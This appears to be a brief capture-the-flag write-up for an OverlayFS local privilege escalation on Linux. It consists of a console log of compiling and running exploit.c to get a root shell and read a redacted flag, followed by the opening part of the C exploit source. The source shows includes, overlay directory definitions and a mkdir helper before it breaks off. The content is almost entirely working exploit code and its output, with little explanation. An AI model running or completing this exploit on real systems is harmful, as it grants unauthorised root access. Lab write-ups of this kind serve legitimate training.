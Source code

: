 ## Console Log
```
overlay@overlayfs:~$ vi exploit.c
overlay@overlayfs:~$ gcc exploit.c -o exploit
overlay@overlayfs:~$ ./exploit 
bash-4.4# cat /root/root.txt
cat: /root/root.txt: No such file or directory
bash-4.4# ls
exploit  exploit.c  ovlcap
bash-4.4# cd
bash-4.4# ls
exploit  exploit.c  ovlcap
bash-4.4# cd /
bash-4.4# ls
bin   home	      lib64	  opt	sbin	  tmp	   vmlinuz.old
boot  initrd.img      lost+found  proc	srv	  usr
dev   initrd.img.old  media	  root	swapfile  var
etc   lib	      mnt	  run	sys	  vmlinuz
bash-4.4# cd /root
bash-4.4# ls
flag.txt
bash-4.4# cat flag.txt 
thm{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}
bash-4.4# 
```

## Exploit
```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <err.h>
#include <errno.h>
#include <sched.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/wait.h>
#include <sys/mount.h>

//#include <attr/xattr.h>
//#include <sys/xattr.h>
int setxattr(const char *path, const char *name, const void *value, size_t size, int flags);


#define DIR_BASE    "./ovlcap"
#define DIR_WORK    DIR_BASE "/work"
#define DIR_LOWER   DIR_BASE "/lower"
#define DIR_UPPER   DIR_BASE "/upper"
#define DIR_MERGE   DIR_BASE "/merge"
#define BIN_MERGE   DIR_MERGE "/magic"
#define BIN_UPPER   DIR_UPPER "/magic"


static void xmkdir(const char *path, mode_t mode)
{
    if (mkdir(path, mode) == -1 && errno != EEXIST)
        err(1, "mkdir %s", path);
}

```